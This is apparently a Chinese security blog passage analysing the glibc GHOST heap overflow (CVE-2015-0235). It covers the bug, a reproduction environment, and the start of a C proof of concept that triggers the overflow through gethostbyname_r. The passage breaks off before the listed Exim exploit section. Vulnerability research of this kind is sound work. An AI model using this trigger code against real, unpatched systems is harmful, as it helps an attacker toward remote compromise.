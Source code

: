 ```yaml
---
layout: post
title: CVE-2015-0235 glibc __nss_hostname_digits_dots 堆溢出漏洞
category: CVE
tags: cve
keywords: cve, binary, hack
description:
---
```


- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
  - [Exim expolit](#exim-exploit)
- [参考资料](#参考资料)


## 漏洞描述
glibc 是 GNU 的 C 运行库，几乎所有 Linux 的其他运行库都依赖于它。该漏洞被称为 GHOST，发生的原因是函数 `__nss_hostname_digits_dots()` 存在缓冲区溢出，可以通过 `gethostbyname*()` 系列函数触发，最容易的攻击入口是邮件服务器，攻击者可以实施远程攻击甚至完全控制目标系统。受影响的版本从 glibc-2.2 到 glibc-2.17。


## 漏洞复现
| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Ubuntu 12.04 | 体系结构：64 位 |
| 调试器 | gdb-peda| 版本号：7.4 |
| 漏洞软件 | glibc | 版本号：2.15 |
| 受影响软件 | Exim4 | 版本号：4.80 |

通过下面的 PoC 可以知道自己的系统是否受到影响：
```c
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
 
#define CANARY "in_the_coal_mine"
 
struct {
  char buffer[1024];
  char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };
 
int main(void) {
  struct hostent resbuf;
  struct hostent *result;
  int herrno;
  int retval;
 
  /*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
  size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
  char name[sizeof(temp.buffer)];
  memset(name, '0', len);
  name[len] = '\0';
 
  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
 
```
